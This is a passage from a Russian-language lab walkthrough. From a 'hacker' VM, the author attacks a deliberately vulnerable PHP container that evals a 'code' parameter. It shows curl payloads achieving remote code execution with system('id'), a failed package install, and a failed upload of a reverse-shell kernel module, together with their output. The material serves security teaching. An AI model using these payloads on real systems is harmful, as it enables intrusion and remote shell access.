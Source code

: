 ```
   ---> 789aa580e832
  Step 5/5 : CMD [ "php", "-S", "0.0.0.0:80" ]
   ---> Running in fd3e54dd7ef2
  Removing intermediate container fd3e54dd7ef2
   ---> 3afd0af1371b

  Successfully built 3afd0af1371b
  Successfully tagged victim_webapp:latest
  Recreating victim_webapp_1 ... done
```

Теперь выполним проверку с хоста `hacker`:

```
$ vagrant ssh hacker
vagrant@hacker:~$ curl -G 192.168.50.4 --data-urlencode "code=system('id');"
  <h1> Hello world!</h1>
  uid=1000 gid=0(root) groups=0(root)
  <br>
```

Как мы видим приложение запущено из под пользователя с UID=1000. Тем не менее попробуем установить необходимые пакеты:

```
vagrant@hacker:~$ curl -G 192.168.50.4 --data-urlencode "code=system('apt-get update 2>&1 && apt-get install -y libcap2-bin kmod 2>&1');"
  <h1> Hello world!</h1>
  Reading package lists...
  E: List directory /var/lib/apt/lists/partial is missing. - Acquire (13: Permission denied)
  <br>
```

Несмотря на то что установить `kmod` не удалось попробуем загрузить модуль

```
vagrant@hacker:~$ cd /vagrant/hacker/
vagrant@hacker:/vagrant/hacker$ curl -X POST 192.168.50.4/?code=move_uploaded_file%28%24_FILES%5B%27shell%27%5D%5B%27tmp_name%27%5D%2C%20%27reverse-shell.ko%27%29%3B -F 'shell=@reverse-shell.ko'
  <h1> Hello world!</h1>
  <br />
  <b>Warning</b>:  move_uploaded_file(reverse-shell.ko): failed to open stream: Permission denied in <b>/app/index.php(3) : eval()'d code</b> on line <b>1</b><br />
  <br />
  <b>Warning</b>:  move_uploaded_file(): Unable to move '/tmp/phpXpL5E6' to 'reverse-shell.ko' in <b>/app/index.php(3) : eval()'d code</b> on line <b>1</b><br />
  <br>
```

В лоб загрузить не удалось. Есть возможность попробовать загрузить в папку `tmp`. Но да же после этого выполнить
команду `insmod` не удасться.

1. kmod - не установлен и команды `insmod` просто нет
2. У не привелигированного пользователя нет прав для выполнения этой операции.
